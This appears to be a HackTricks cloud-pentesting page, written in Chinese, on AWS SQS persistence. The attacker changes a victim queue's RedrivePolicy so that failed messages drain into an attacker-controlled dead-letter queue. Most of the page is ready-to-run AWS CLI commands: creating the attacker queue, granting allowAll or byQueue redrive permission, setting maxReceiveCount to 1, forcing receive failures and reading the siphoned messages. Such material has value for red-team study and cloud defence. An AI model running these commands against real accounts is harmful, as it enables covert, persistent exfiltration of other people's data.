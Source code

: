 # AWS - SQS DLQ Backdoor Persistence via ReddrivePolicy/RedriveAllowPolicy

{{#include ../../../../banners/hacktricks-training.md}}

滥用 SQS Dead-Letter Queues (DLQs)，通过将其 RedrivePolicy 指向攻击者控制的队列，悄然从受害者源队列抽取数据。通过设置较低的 maxReceiveCount 并触发或等待正常处理失败，消息会在不更改生产者或 Lambda event source mappings 的情况下自动转移到攻击者的 DLQ。

## 受滥用的权限
- sqs:SetQueueAttributes 在受害者源队列上（用于设置 RedrivePolicy）
- sqs:SetQueueAttributes 在攻击者 DLQ 上（用于设置 RedriveAllowPolicy）
- 可选用于加速：sqs:ReceiveMessage 在源队列上
- 可选用于设置：sqs:CreateQueue、sqs:SendMessage

## 同账户流程 (allowAll)

准备（攻击者账户或被攻陷的主体）：
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```
执行（在受害者账户中以被攻陷的主体身份运行）：
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
--queue-url "$VICTIM_SRC_URL" --region $REGION \
--attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```
加速（可选）：
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
--max-number-of-messages 10 --visibility-timeout 0; \
done
```
验证：
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--max-number-of-messages 10 --attribute-names All --message-attribute-names All
```
示例证据 (属性包括 DeadLetterQueueSourceArn):
```json
{
"MessageId": "...",
"Body": "...",
"Attributes": {
"DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
}
}
```
## 跨账户变体 (byQueue)
在攻击者 DLQ 上设置 RedriveAllowPolicy，仅允许特定的受害者源队列 ARNs：
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
--queue-url "$ATTACKER_DLQ_URL" --region $REGION \
--attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```
## 影响
- 隐蔽且持久的 data exfiltration/persistence：通过自动将失败消息从受害者的 SQS 源队列转入攻击者控制的 DLQ，实现最小的操作噪声且无需更改生产者或 Lambda 映射。

{{#include ../../../../banners/hacktricks-training.md}}
